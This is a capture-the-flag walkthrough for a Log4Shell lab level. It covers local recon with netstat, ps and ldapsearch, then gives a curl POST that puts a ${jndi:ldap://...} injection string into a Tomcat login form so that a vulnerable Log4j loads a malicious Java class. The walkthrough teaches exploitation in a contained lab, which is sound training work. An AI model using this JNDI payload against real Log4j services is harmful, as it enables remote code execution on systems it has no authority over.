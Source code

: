# Level - 8 - Log4Shell

## Flag 1

The player will need to do some recon work to discover what services are running and what ports are listening.

```
netstat -an
```

```
ps -ef
```

![Flag 1 - Recon](./images/flag-1-recon.png "Flag 2 - Recon")

Upon running these commands, the player should notice ports 8080, 3002, and 3389 listening. They'll also see in processes that tomcat, a python http service, and ldap are running.

Flag 1 is found using LDAP, so we'll focus on that service to begin with. The player can use ldapsearch to connect to the service and dig a bit. If they use a general search to pull all objectClasses, then the first flag will be revealed.

```
ldapsearch -H ldap://localhost:3389 -x "(objectClass=*)"
```

![Flag 1](./images/flag-1.png "Flag 1")

## Flag 2

Note that in the LDAP response there is another person object to keep in mind. The Wario object contains references to java classes and a url to one of the other HTTP services running on port 3002. The DN of this will come in handy later on.

Using curl, they can query the service on 3002. They'll see a directory listing where they can gain access to a java class. But, they won't be able to execute it due to the permissions it requires. This is actually the malicious payload they need the tomcat user to execute instead.

The player can also send a GET request to the tomcat service running on port 8080. They'll receive HTML back and need to gather that it's a login page for an employee portal.

![Flag 2 - Tomcat](./images/flag-1-tomcat.png "Flag 2 - tomcat")

If they attempt to login to the page using a curl POST request, they get a response that the login failed and that the request will be logged. This is a hint. Furthermore, if they list out their home directory they might notice a pom.xml file left behind. Upon looking into that file, they should notice that it's an application using a vulnerable version of Log4j. With this information (http, log4j, ldap), the player can attempt to use a crafted JNDI+LDAP request in the login form to attempt an exploit.

```
curl -X POST localhost:8080/login -d 'uname=${jndi:ldap://localhost:3389/cn=wario,ou=people,dc=bowsercorp,dc=party}'
```

![Flag 2 - JNDI](./images/flag-2-jndi.png "Flag 2 - jndi")

A message is written to the console that mentions a file getting dropped in the /tmp directory. If the user checks, a new file there named accessgranted, which contains the flag.

![Flag 2](./images/flag-2.png "Flag 2")
